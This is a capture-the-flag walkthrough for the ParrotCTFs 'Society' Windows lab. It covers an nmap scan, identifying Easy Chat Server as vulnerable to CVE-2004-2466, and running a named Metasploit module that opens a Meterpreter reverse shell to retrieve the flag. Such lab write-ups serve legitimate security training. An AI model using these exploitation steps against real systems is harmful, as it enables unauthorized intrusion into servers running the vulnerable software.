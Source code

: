 ```yaml
---
title: "ParrotCTFs Society Walkthrough"
description: "ParrotCTFs machine walkthrough"
date: 2025-05-24
categories: [Walkthrough]
tags: [ParrotCTFs,Society, CVE-2004-2466, Easy Chat Server]
image :
    path : https://s3.parrot-ctfs.com/hacking/machines/society_beginner_ctf.png
---
```


Another Windows Machine Society from ParrotCTFs , this room is Professional Labs you can also try it if you want , Here : [Machine Link](https://parrot-ctfs.com/dashboard/box?boxID=3534453498) , its very straight forward solution to rooting the machine . This machine is targeting the personal, starting in cybersecurity. 

| Name        | Society                                                                                                                                                                                                                              |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Difficulty  | Easy                                                                                                                                                                                                                                 |
| Category    | Buffer Overflow                                                                                                                                                                                                                      |
| Description | Welcome society, a virtual world where the only currency is words, and the conversations never stop. Our servers are like a bustling cafe where people come to chat, share stories, and connect with others from all over the world. |


So let's start: 

- First we can connect with the vpn 

![Image](https://api.pcloud.com/getpubthumb?code=XZXmNh5ZN6q4tAIjoEub7iYUyjVuuhESUXVX&linkpassword=&size=271x157&crop=0&type=auto)

- now we can start the machine ( if machine not seems to work , do reset and try again ) 

![Image](https://api.pcloud.com/getpubthumb?code=XZcppS5ZGzFTluz62PJJLyHPPs3thVXOBrzk&linkpassword=&size=609x547&crop=0&type=auto)

- check if machine is accessible or not 

![Image](https://api.pcloud.com/getpubthumb?code=XZPHpS5Z4NBtwMemFk09Tzsx20Pws4iwyKqV&linkpassword=&size=609x217&crop=0&type=auto)

### <span style="color: DarkSalmon;"><b># Enumeration</b></span>
----

- let's first start with the basic nmap scan ...

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -p- 10.53.0.55 --min-rate=1500 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-23 23:12 EDT
Nmap scan report for 10.53.0.55
Host is up (0.20s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Easy Chat Server httpd 1.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Easy Chat Server httpd 1.0
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DESKTOP-UT6N7VL
| Not valid before: 2025-01-19T03:52:19
|_Not valid after:  2025-07-21T03:52:19
|_ssl-date: 2025-04-08T04:25:22+00:00; -45d22h51m05s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: DESKTOP-UT6N7VL
|   NetBIOS_Domain_Name: DESKTOP-UT6N7VL
|   NetBIOS_Computer_Name: DESKTOP-UT6N7VL
|   DNS_Domain_Name: DESKTOP-UT6N7VL
|   DNS_Computer_Name: DESKTOP-UT6N7VL
|   Product_Version: 10.0.19041
|_  System_Time: 2025-04-08T04:24:09+00:00
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DESKTOP-UT6N7VL, NetBIOS user: <unknown>, NetBIOS MAC: c6:dc:c8:ef:e3:7f (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-08T04:24:08
|_  start_date: N/A
|_clock-skew: mean: -45d22h51m05s, deviation: 0s, median: -45d22h51m05s
```

- i find out the at port 80 , `Easy Chat Server httpd 1.0` service is running and other ports are open too . 

![Image](https://api.pcloud.com/getpubthumb?code=XZWzpS5Z8eHUrXIylt7iiVp7NCEoPma0GNKy&linkpassword=&size=1612x416&crop=0&type=auto)

- i search this service name on the google and find out that version is vulnerable and assigned a cve ( CVE-2004-2466 ) as category is already mentioned in the lab details , help more accurate search.

![Image](https://api.pcloud.com/getpubthumb?code=XZwzpS5Z7IGNs4evXq528G6zS55N3uegtYvX&linkpassword=&size=1155x572&crop=0&type=auto)

- then i look in to the metasploit for module to this vulnerability or CVE . 
- and i find out one.

![Image](https://api.pcloud.com/getpubthumb?code=XZrzpS5ZedVpucgq6X5XPLkn17i7p0Etf1uk&linkpassword=&size=1312x333&crop=0&type=auto)

### <span style="color: DarkSalmon;"><b># Exploitation</b></span>
-----

- let's select the module and see the options for this module , which have to be set before running this . 
- we can also check before running this , that it is indeed vulnerable or not and it is bytheway

![Image](https://api.pcloud.com/getpubthumb?code=XZHRpS5ZQ2GaLJU1QBLCWjQekca4qRDhu3Py&linkpassword=&size=796x117&crop=0&type=auto)

- now i had setup all the options required for this module , let's exploit it 

```bash
msf6 exploit(windows/http/efs_easychatserver_username) > exploit
[*] Started reverse TCP handler on 10.14.0.15:4444 
[*] Sending request (612 bytes) to target (Easy Chat Server 2.1 - 3.1)
[*] Sending stage (177734 bytes) to 10.53.0.55
[*] Meterpreter session 1 opened (10.14.0.15:4444 -> 10.53.0.55:61022) at 2025-05-23 23:15:10 -0400

meterpreter > getuid
Server username: DESKTOP-UT6N7VL\jacob
```

- now i have shell of jacob ( you can check `help` menu for command in metasploit )
- we got flag file in the Desktop folder of jocob , and this file says that this flag is for both user and root , so no need for privilege escalation . 

![Image](https://api.pcloud.com/getpubthumb?code=XZCRpS5ZesUdPkWKGMzs5QwsgBHr1k9cUPj7&linkpassword=&size=798x497&crop=0&type=auto)

<br>

### <span style="color: DarkSalmon;"><b># Final Thoughts</b></span>

I hope this blog continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts — my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on Linkedin and Twitter <br>
[linkdin](https://www.linkedin.com/in/hitesh-sharma-413862245/) <br>
[Twitter](https://x.com/Archtrmntor) <br>
[Machine Platform](https://parrot-ctfs.com/dashboard) <br>
